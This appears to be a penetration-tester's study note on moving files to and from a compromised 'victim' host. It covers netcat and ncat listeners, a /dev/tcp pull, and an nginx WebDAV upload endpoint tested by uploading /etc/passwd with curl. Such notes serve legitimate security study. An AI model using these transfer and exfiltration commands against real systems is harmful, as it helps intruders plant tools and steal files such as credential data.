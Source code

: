 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## Through Tools
### Using NetCat & Ncat
```bash
# 1. [On victim] Start a server on the victim machine, redirecting to our output file
nc -l -p 8000 > file.exe
ncat -l -p 8000 --recv-only > file.exe

# 2. [On local] Upload a file
nc -q 0 <ip> 8000 < file.exe
ncat --send-only <ip> 8000 < file.exe
```
This can be done in reverse (eg. file wall blocks above):
```bash
# 1. [On local] Start a server
sudo nc -l -p 443 -q 0 < file.exe
sudo ncat -l -p 443 --send-only < file.exe

# 2. [On victim] Recieve file
nc <ip> 443 > file.exe
ncat <ip> 443 --recv-only > file.exe
cat < /dev/tcp/<ip>/443 > file.exe
```

### Using HTTP/S Through Nginx
Nginx's modular system tends not to lead to security issues like Apache can, and it's configuration is simpler.
> When allowing HTTP uploads, we need to make sure web shells can't be uploaded and executing. With Apache's PHP module, it likes to execute anything ending with PHP. However, Nginx's equivalent PHP isn't as easy to setup and introduce holes like this.

```Bash
# 1. Create an uploads directory (with a complex name for security reasons)
sudo mkdir -p /var/www/uploads/SecretUploadDirectory

# 2. Change the owner
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory

# 3. Create nginx config file
sudo vi /etc/nginx/sites-available/upload.conf

server {
	listen 9001;
	location /SecretUploadDirectory/ {
		root /var/www/uploads;
		dav_methods PUT;
	}
}

# 4. Symlink to the sites-enabled directory
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/

# 5. Start nginx
sudo systemctl restart nginx.service

# 6. Test upload a file
curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt

# 7. Retrieve file from storage
sudo cat /var/www/uploads/SecretUploadDirectory/users.txt
```

> Make sure to check that directory listing isn't enabled by navigating to http://localhost:9001/SecretUploadDirectory/
> Nginx normally doesn't have this on by default but Apache does.

**Troubleshooting**
```bash
# Tail the logs
tail -2 /var/log/nginx/error.log

# Check to see if a port is being used by something else
ss -lnpt | grep <port>

# Check process using the above port
ps -ef | grep <pid>

# Remove default config if needed (often its because it defaults to port 80 and that might be used by something else)
sudo rm /etc/nginx/sites-enabled/default
```

## Through Code
![[File Transfer Through Code]]

## Linux Specific
![[Operating Systems/Linux/File Transfer|File Transfer]]

## Windows Specific
![[Operating Systems/Windows/File Transfer|File Transfer]]